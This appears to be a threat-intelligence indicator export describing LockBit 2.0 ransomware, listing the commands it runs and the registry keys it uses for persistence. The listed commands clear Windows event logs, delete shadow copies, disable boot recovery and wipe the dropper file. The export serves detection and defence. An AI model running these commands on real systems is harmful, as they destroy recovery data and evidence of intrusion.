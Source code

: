 ### command-line — Command line and options related to a specific command executed by a program, whether it is malicious or not.
* [Other] text: Description: This command has an invalid syntax and errors out
* [Other] text: cmd.exe /c wmic SHADOWCOPY /nointeractive

### command-line — Command line and options related to a specific command executed by a program, whether it is malicious or not.
* [Other] text: Description: Deletes security log
* [Other] text: cmd.exe /c wevtutil cl security

### command-line — Command line and options related to a specific command executed by a program, whether it is malicious or not.
* [Other] text: Description: Deletes system log
* [Other] text: cmd.exe /c wevtutil cl system

### command-line — Command line and options related to a specific command executed by a program, whether it is malicious or not.
* [Other] text: Description: Deletes application log
* [Other] text: cmd.exe /c wevtutil cl application

### command-line — Command line and options related to a specific command executed by a program, whether it is malicious or not.
* [Other] text: Description: Wipes and deletes itself
* [Other] text: cmd.exe "%WINDIR%\System32\cmd.exe" /C ping 127.0.0.7 -n 3 >Nul&fsutil file
setZeroData offset=0 length=524288 "%USERPROFILE%\Desktop\Lsystem-234-bit.exe" & Del /f
/q "%USERPROFILE%\Desktop\Lsystem-234-bit.exe"

### command-line — Command line and options related to a specific command executed by a program, whether it is malicious or not.
* [Other] text: Description: Lockbit 2.0 deletes all shadow copies on disc to prevent data recovery
* [Other] text: cmd.exe "%WINDIR%\System32\cmd.exe" /c vssadmin delete shadows /all /quiet & wmic
shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set
{default} recoveryenabled no

### registry-key — Registry key object describing a Windows registry key with value and last-modified timestamp
* [Persistence mechanism] text: <LockBit 2.0 Ransomware path>
* [Persistence mechanism] regkey: HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows NT\CurrentVersion\ICM\Calibration\|Display Calibrator

### registry-key — Registry key object describing a Windows registry key with value and last-modified timestamp
* [Persistence mechanism] text: "%WINDIR%\system32\mshta.exe" "%USERPROFILE%\Desktop\LockBit_Ransomware.hta"
* [Persistence mechanism] regkey: HKEY_CLASSES_ROOT\Lockbit\shell\Open\Command\
